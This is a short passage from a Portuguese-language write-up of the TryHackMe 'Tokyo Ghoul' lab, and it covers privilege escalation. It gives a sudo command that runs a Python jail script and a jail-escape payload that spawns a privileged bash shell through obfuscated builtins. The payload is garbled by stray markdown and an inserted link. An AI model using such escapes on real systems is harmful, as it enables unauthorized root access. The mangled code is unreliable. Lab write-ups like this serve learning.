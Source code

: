 ```python
```

## Escalação de Privilégio

- Pra bypass o filtro foi pesquisado python jail escape
- Comandos:
    
    [Escaping Python Jails](https://anee.me/escaping-python-jails-849c65cf306e)
    
    - `sudo /usr/bin/python3 /home/kamishiro/jail.py`
        ```python
        **__builtins__**.__**dict__**['__**IMPORT__**'.lower()](https://www.notion.so/'OS'.lower()).__**dict__**['SYSTEM'.lower()]('/bin/bash -p')
        ```
![Untitled](TryHackMe%20-%20Tokyo%20Ghoul%20f3445adefbf44ffda5af426f0caa1101/Untitled%209.png)